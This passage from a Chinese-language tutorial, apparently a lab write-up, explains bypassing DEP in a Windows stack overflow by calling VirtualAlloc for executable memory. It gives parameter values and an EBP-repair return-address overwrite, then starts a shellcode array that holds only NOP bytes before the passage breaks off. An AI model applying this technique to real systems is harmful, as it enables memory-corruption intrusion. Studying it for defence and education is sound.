 
首先我们要能够利用 VirtualAlloc 申请具有执行权限的内存，让我们来分析一下 VirtualAlloc 具体实现流程：
- 从图 12.3.25 中大家可以看到 VirtualAlloc 函数中对各参数的调用与 VirtualProtect 函数如出一辙，因此我们可以选择与上个实验中一致的参数构造方法；
- 但是仔细观察后您会发现二者还是有区别的，VirtualAlloc 各参数不存在动态确定的问题，可以直接写到 shellcode 里边，它的布局要比 VirtualProtect 函数中的布局简单的多。

<img src="images/09/virtualalloc函数的具体实现流程.png">

这次我们将参数直接布置到shellcode中，然后选择 0x7c8245BC CALL VirtualAllocEx处作为切入点，直接申请空间。

关键参数取值：
- lpAddress = 0x00030000，只要选择一个未被占用的地址即可，没有什么特殊要求；
- dwSize = 0xFF，申请空间大小可以根据shellcode的长度确定，这里申请了255个字节；
- flAllocationType = 0x00001000，该值使用0x00001000即可，如有特殊需要可根据MSDN的介绍来设置为其他值。
- flProtect = 0x00000040，内存属性要设置为可读可写可执行，详情可参考[MSDN memory protection constants](https://docs.microsoft.com/en-us/windows/win32/memory/memory-protection-constants)

由于EBP在溢出过程中被破坏，所以第一步依然是修复EBP，我们用```PUSH ESP POP EBP RETN4```指令的地址覆盖test函数的返回地址，然后按照以上参数布置一个能够申请可执行内存空间的shellcode，shellcode如下所示：

```c
char shellcode [] = 
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
```